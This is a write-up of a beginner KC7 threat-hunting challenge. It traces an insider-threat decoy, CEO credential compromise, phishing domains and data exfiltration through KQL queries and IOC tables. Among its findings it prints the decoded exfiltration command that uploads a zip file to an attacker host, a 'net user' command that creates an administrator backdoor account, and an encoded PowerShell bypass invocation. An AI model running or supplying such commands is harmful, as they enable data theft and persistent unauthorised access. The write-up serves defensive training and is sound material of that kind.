





# CowBoy Couture

A KC7 training investigation focused on insider threat detection, phishing-driven credential compromise, and persistent backdoor establishment using KQL threat hunting queries.


*CyberChef analysis revealing base64-encoded PowerShell command containing an advanced-uploader.exe payload with C2 callback to im-your-huckleberry.com domain.*



*KQL query results showing file creation events on compromised host ITCK-MACHINE with suspicious zip files placed in 'designs_to_steal' folder, demonstrating data staging for exfiltration.*



*Discovery of attacker-controlled domain using the .lu TLD (Luxembourg), indicating evidence of foreign interference in the attack campaign.*



*Identified suspicious source IP address 192.124.249.15 used for unauthorized login activity to a compromised account.*



*KQL query results showing employee authentication data including username 'jostrand', IP address 10.10.0.3, and the company domain celestialcowboycouture.com for user John Strand.*


  

---

## Challenge Overview

| Field | Details |
|-------|---------|
| **Challenge Name** | CowBoy Couture |
| **Author** | David Brown |
| **Platform** | KC7 |
| **Category** | Threat Hunting, Incident Response, OSINT |
| **Difficulty** | Beginner |
| **Tools Used** | KQL (Kusto Query Language), CyberChef, PassiveDNS, LinkedIn OSINT |
| **Target/Box** | Celestial Cowboy Couture corporate environment |

**Scenario:**

You are a new security analyst at Celestial Cowboy Couture, a space-themed western fashion company in Deadwood, South Dakota. Jason Blanchard, Director of Happiness, alerts you to a potential security incident that could destroy the company. Initial investigation points to Megan Lucia, a disgruntled Lead Fashion Designer who recently complained on LinkedIn about being denied a promotion. However, deeper analysis reveals a more sophisticated attack involving CEO credential compromise, phishing infrastructure, and persistent backdoor access.

---

## Attack Timeline

| Date/Time | Event |
|-----------|-------|
| 2024-09-11 12:52:27 PM | First successful login to melucia account from suspicious IP 14[.]111[.]240[.]80 |
| 2024-09-14 09:00:19 AM | Attacker domain secure-celestial[.]com first resolves to 192[.]124[.]249[.]15 |
| 2024-09-16 09:00:19 AM | Attacker domain celestialcowboy-support[.]com resolves to 192[.]124[.]249[.]15 |
| 2024-09-17 06:09:15 AM | First phishing email with malicious link sent to employees |
| 2024-09-18 10:43:52 AM | Phishing email sent from spoofed HR address |
| 2024-09-19 06:25:59 AM | Anomalous login to CEO jahartley account from 192[.]124[.]249[.]15 |
| 2024-09-19 11:46:29 AM | Reconnaissance commands executed (wmic logicaldisk) on JHTJ-DESKTOP |
| 2024-09-20 04:18:04 AM | Directory enumeration on CEO machine (dir C:\\ /s /p) |
| 2024-09-20 04:39:09 AM | Persistent backdoor account "backdooradmin" created with administrative privileges |
| 2024-09-20 05:47:10 AM | CEO-impersonation phishing email sent to Megan Lucia regarding fake promotion |
| 2024-10-02 08:02:53 AM | Design files compressed into zip archives in designs_to_steal folder |
| 2024-10-02 08:36:47 AM | advanced-uploader[.]exe deployed to C:\Users\Public\ |
| 2024-10-02 08:37:36 AM | Data exfiltration tool executed with Base64-encoded PowerShell command |

---

## Solution Walkthrough

### Step 1 — OSINT Reconnaissance on Disgruntled Employee

Investigation began with open-source intelligence gathering on LinkedIn to identify insider threats.

```kql
Employees
| where role == "Lead Fashion Designer"
```

// Result: Identified Megan Lucia as Lead Fashion Designer who posted complaints about being denied promotion 6 months prior

**Employee identified:** Megan Lucia  
**Role:** Lead Fashion Designer  
**Motivation:** Posted on LinkedIn about denial of promotion and questioned company loyalty  
**Initial suspicion:** Potential insider threat / data leak risk

---

### Step 2 — Identify Employee Workstation

Located the target employee's hostname for forensic analysis.

```kql
FileCreationEvents
| where hostname == "ITCK-MACHINE"
| order by timestamp desc
```

// Result: Confirmed ITCK-MACHINE as Megan Lucia's workstation with username melucia

**Hostname:** ITCK-MACHINE  
**Username:** melucia  
**File activity:** Multiple suspicious file creation events in Documents folder

---

### Step 3 — Detect Data Staging Activity

Analyzed file creation events for evidence of data exfiltration preparation.

```kql
FileCreationEvents
| where hostname == "ITCK-MACHINE"
| where filename contains ".zip"
| order by timestamp desc
```

// Result: Four zip archives created on 2024-10-02 using 7zip[.]exe containing proprietary design files

**Suspicious files created:**
- branding_bonanza_final_DO_NOT_EDIT_COWBOY.zip
- saddle_up_swag_designs_yee_and_haw_edition.zip
- rattlesnake_runway_lookbook_VIP_EXCLUSIVE.zip
- 2025_cowboy_vanity_fair_designs_SO_CHIC.zip

**Storage location:** C:\Users\melucia\Documents\designs_to_steal\  
**Compression tool:** 7zip[.]exe  
**Total files:** 4 zip archives

---

### Step 4 — Identify Data Exfiltration Tool Deployment

Searched for the deployment of suspicious exfiltration utilities.

```kql
FileCreationEvents
| where hostname == "ITCK-MACHINE"
| where filename == "advanced-uploader.exe"
| order by timestamp desc
```

// Result: Malicious uploader tool deployed via Edge browser to public directory

**Malicious file:** advanced-uploader[.]exe  
**Creation timestamp:** 2024-10-02 08:36:47 AM  
**File path:** C:\Users\Public\advanced-uploader[.]exe  
**Delivery method:** Downloaded via edge[.]exe

---

### Step 5 — Analyze Malicious Process Execution

Investigated whether the exfiltration tool was executed on the compromised machine.

```kql
ProcessEvents
| where hostname == "ITCK-MACHINE"
| where process_name == "advanced-uploader.exe"
```

// Result: Confirmed execution via cmd[.]exe with PowerShell bypass and Base64-encoded command

**Process executed:** advanced-uploader[.]exe  
**Parent process:** cmd[.]exe  
**Execution timestamp:** 2024-10-02 08:37:36 AM  
**Command line:** C:\Windows\System32\powershell[.]exe -Nop -ExecutionPolicy bypass -EncodedCommand [Base64]

---

### Step 6 — Decode Obfuscated PowerShell Command

Used CyberChef to decode the Base64-encoded and reversed PowerShell payload.

```bash
# CyberChef Recipe: From Base64 → Reverse (By Character)
```

**Decoded command:**
```powershell
advanced-uploader.exe --file C:\Users\Public\lassoed_loot.zip --dest http://im-your-huckleberry.com/aintnothintolookathere partnakeetitpushin --encrypt --chunk-size 5MB --retry
```

**Exfiltration target:** http[:]//im-your-huckleberry[.]com/aintnothintolookathere  
**Exfiltrated file:** lassoed_loot.zip  
**Method:** Encrypted upload in 5MB chunks with retry mechanism

---

### Step 7 — Detect Anomalous Authentication Activity

Investigated authentication logs after receiving alert about unusual login to melucia account.

```kql
AuthenticationEvents
| where username == "melucia"
| where result == "Successful Login"
```

// Result: Identified anomalous login from different source IP (192.124[.]249[.]15) with suspicious user-agent (Windows 98)

**Anomalous login timestamp:** 2024-09-23 06:58:54 AM  
**Source IP:** 192[.]124[.]249[.]15  
**User-agent:** Mozilla/5.0 (Windows 98) AppleWebKit/533.2 (KHTML, like Gecko)  
**Normal source IPs:** 14[.]111[.]240[.]80, 10[.]10[.]0[.]14

---

### Step 8 — Count Successful Logins from Attacker IP

Quantified the scope of successful authentication from the suspicious IP address.

```kql
AuthenticationEvents
| where src_ip == "192.124.249.15" and result == "Successful Login"
| count
```

// Result: Two successful logins from attacker IP address

**Successful logins:** 2  
**Indication:** Multiple accounts compromised from same attacker infrastructure

---

### Step 9 — Identify Additional Compromised Accounts

Expanded investigation to discover other accounts accessed from the attacker IP.

```kql
AuthenticationEvents
| where src_ip == "192.124.249.15" and result == "Successful Login"
```

// Result: CEO account jahartley also compromised on 2024-09-19 at 06:25:59 AM

**Second compromised account:** jahartley  
**Full name:** Jane Hartley  
**Role:** CEO  
**Email:** jane_hartley@celestialcowboycouture[.]com  
**Hostname:** JHTJ-DESKTOP  
**IP address:** 10[.]10[.]0[.]30  
**MFA status:** Disabled (False)  
**Password hash:** b7c95b46aef4ec52db64c8d5600ceda2

---

### Step 10 — Profile Compromised CEO Account

Retrieved detailed employee information for the compromised executive account.

```kql
Employees
| where username == "jahartley"
```

// Result: Confirmed CEO Jane Hartley account with MFA disabled, hired March 2024

**Critical finding:** CEO account with administrative access compromised and MFA not enabled  
**Hire date:** 2024-03-11  
**User agent:** Mozilla/5.0 (Windows NT 6.3; rv:47.0) Gecko/20100101 Firefox/47

---

### Step 11 — Detect Persistent Backdoor Creation

Investigated process execution on CEO machine after compromise to identify persistence mechanisms.

```kql
ProcessEvents
| where hostname == "JHTJ-DESKTOP"
| where timestamp between (datetime(2024-09-19T06:25:59Z) .. datetime(2024-09-20T15:25:27Z))
```

// Result: Attacker created backdoor administrator account on 2024-09-20 at 04:39:09 AM

**Persistence timestamp:** 2024-09-20 04:39:09 AM  
**Command executed:**
```cmd
net user backdooradmin CowboyBandits123! /add && net localgroup administrators backdooradmin /add && echo "User 'backdooradmin' added to Administrators group."
```

**Backdoor username:** backdooradmin  
**Backdoor password:** CowboyBandits123!  
**Privilege level:** Local Administrators group

---

### Step 12 — Map Attacker Infrastructure via PassiveDNS

Leveraged passive DNS data to identify attacker-controlled domains.

```kql
PassiveDns
| where ip == "192.124.249.15"
```

// Result: Attacker IP resolves to two typosquatted domains mimicking legitimate company infrastructure

**Malicious domains:** secure-celestial[.]com, celestialcowboy-support[.]com  
**Total domains:** 2  
**First resolution:** 2024-09-14 09:00:19 AM

---

### Step 13 — Pivot to Additional Attacker Infrastructure

Expanded DNS investigation by querying all IPs resolving to identified malicious domains.

```kql
PassiveDns
| where domain in ("secure-celestial.com", "celestialcowboy-support.com")
```

// Result: Discovered third attacker IP (142.250[.]191[.]78) resolving to secure-celestial[.]com

**Additional attacker IP:** 142[.]250[.]191[.]78  
**Related IP:** 185[.]60[.]218[.]35  
**Infrastructure pattern:** Multiple IPs rotating across typosquatted domains

---

### Step 14 — Identify Phishing Email Campaign

Searched email logs for messages containing links to attacker-controlled domains.

```kql
Email
| where link has_any ("cccouture-hr-update.com", "celestialcowboy-support.com", "secure-celestial.com")
```

// Result: CEO-impersonation phishing email sent to Megan Lucia with fake promotion offer

**Phishing email subject:** URGENT: From your CEO - Immediate Action Required: You are getting promoted Cowboy!!!!  
**Sender (spoofed):** jane_hartley@celestialcowboycouture[.]com  
**Recipient:** megan_lucia@celestialcowboycouture[.]com  
**Malicious link:** http[:]//cccouture-hr-update[.]com/search/search/online/modules/sign_in  
**Email verdict:** CLEAN (bypassed email security)  
**Timestamp:** 2024-09-20 05:47:10 AM

---

## IOC Table

| Type | Indicator | Context | Threat Actor |
|------|-----------|---------|--------------|
| IPv4 | 192[.]124[.]249[.]15 | Primary attacker IP used for credential abuse and C2 | Unknown |
| IPv4 | 142[.]250[.]191[.]78 | Secondary attacker infrastructure IP | Unknown |
| IPv4 | 185[.]60[.]218[.]35 | Tertiary attacker infrastructure IP | Unknown |
| Domain | secure-celestial[.]com | Typosquatting domain for phishing | Unknown |
| Domain | celestialcowboy-support[.]com | Typosquatting domain for phishing | Unknown |
| Domain | cccouture-hr-update[.]com | Phishing credential harvesting site | Unknown |
| Domain | im-your-huckleberry[.]com | Data exfiltration C2 server | Unknown |
| Email | jane_hartley@celestialcowboycouture[.]com | Spoofed sender address in CEO impersonation attack | Unknown |
| Username | backdooradmin | Persistent backdoor account created on JHTJ-DESKTOP | Unknown |
| Password | CowboyBandits123! | Backdoor account credential | Unknown |
| Hash (MD5) | b7c95b46aef4ec52db64c8d5600ceda2 | Password hash for jahartley CEO account | Unknown |
| File | advanced-uploader[.]exe | Data exfiltration tool deployed to C:\Users\Public\ | Unknown |
| File | lassoed_loot.zip | Compressed stolen data archive exfiltrated to C2 | Unknown |
| User-Agent | Mozilla/5.0 (Windows 98) AppleWebKit/533.2 | Anomalous/outdated user-agent indicating compromise | Unknown |
| Hostname | ITCK-MACHINE | Megan Lucia workstation (melucia account) | N/A |
| Hostname | JHTJ-DESKTOP | CEO Jane Hartley workstation (jahartley account) | N/A |

---

## MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Evidence from Investigation |
|--------|--------------|----------------|----------------------------|
| Reconnaissance | T1589.002 | Gather Victim Identity Information: Email Addresses | LinkedIn OSINT to identify disgruntled employee and company email patterns |
| Initial Access | T1566.002 | Phishing: Spearphishing Link | CEO impersonation email with malicious link to cccouture-hr-update[.]com |
| Execution | T1059.001 | Command and Scripting Interpreter: PowerShell | PowerShell executed with -ExecutionPolicy bypass and Base64-encoded command |
| Persistence | T1136.001 | Create Account: Local Account | Created "backdooradmin" account with administrative privileges via net user command |
| Privilege Escalation | T1078.003 | Valid Accounts: Local Accounts | Backdoor account added to Administrators group on JHTJ-DESKTOP |
| Defense Evasion | T1027 | Obfuscated Files or Information | Base64-encoded and character-reversed PowerShell payload |
| Defense Evasion | T1140 | Deobfuscate/Decode Files or Information | CyberChef required to decode attacker command |
| Credential Access | T1110 | Brute Force | Successful credential abuse against melucia and jahartley accounts |
| Discovery | T1083 | File and Directory Discovery | Directory enumeration via "dir C:\\ /s /p" command |
| Discovery | T1082 | System Information Discovery | wmic logicaldisk enumeration on compromised CEO machine |
| Collection | T1560.001 | Archive Collected Data: Archive via Utility | 7zip[.]exe used to compress design files into four zip archives |
| Command and Control | T1071.001 | Application Layer Protocol: Web Protocols | HTTP-based C2 to im-your-huckleberry[.]com |
| Exfiltration | T1041 | Exfiltration Over C2 Channel | advanced-uploader[.]exe used to exfiltrate lassoed_loot.zip in encrypted 5MB chunks |

---

## Tools Used

- **KQL (Kusto Query Language)** — Primary query language for hunting across FileCreationEvents, ProcessEvents, AuthenticationEvents, Email, and PassiveDns tables
- **CyberChef** — Decoded Base64-encoded and character-reversed PowerShell obfuscation to reveal exfiltration command
- **LinkedIn** — OSINT reconnaissance to identify disgruntled employee with insider threat indicators
- **PassiveDNS** — Threat intelligence pivoting to map attacker infrastructure and identify typosquatted domains
- **KC7 Platform** — Training environment providing log sources and guided investigation framework

---

## Key Takeaways

1. **Insider threat misdirection** — Initial investigation focused on disgruntled employee (Megan Lucia), but deeper analysis revealed she was a victim of CEO impersonation phishing, not the attacker.

2. **Anomaly detection is critical** — Identifying the anomalous login (different source IP 192[.]124[.]249[.]15 and outdated Windows 98 user-agent) was the pivot point that uncovered the real attack chain.

3. **MFA absence enables lateral movement** — CEO account with MFA disabled allowed attacker to compromise high-value target and establish persistent administrative backdoor.

4. **Obfuscation does not guarantee evasion** — Attackers used Base64 encoding and character reversal, but CyberChef and query-based hunting exposed the exfiltration command and C2 infrastructure.

5. **PassiveDNS accelerates threat hunting** — Pivoting from known malicious IP (192[.]124[.]249[.]15) to domains (secure-celestial[.]com, celestialcowboy-support[.]com) and back to additional IPs (142[.]250[.]191[.]78) mapped attacker infrastructure efficiently.

6. **Typosquatting remains effective** — Domains mimicking legitimate company infrastructure (celestialcowboy-support[.]com vs celestialcowboycouture[.]com) bypassed user vigilance and email security verdicts.

---

## References

- [MITRE ATT&CK T1566.002 - Phishing: Spearphishing Link](https://attack.mitre.org/techniques/T1566/002/)
- [MITRE ATT&CK T1059.001 - PowerShell](https://attack.mitre.org/techniques/T1059/001/)
- [MITRE ATT&CK T1136.001 - Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/)
- [MITRE ATT&CK T1560.001 - Archive via Utility](https://attack.mitre.org/techniques/T1560/001/)
- [MITRE ATT&CK T1041 - Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041/)
- [KC7 Cyber Range Training Platform](hxxps://kc7cyber[.]com/)
- [CyberChef - The Cyber Swiss Army Knife](hxxps://gchq.github[.]io/CyberChef/)
- [Kusto Query Language (KQL) Documentation](https://learn.microsoft.com/en-us/azure/data-explorer/kusto/query/)

---

*Author: David Brown | Platform: KC7 | Date: 2024*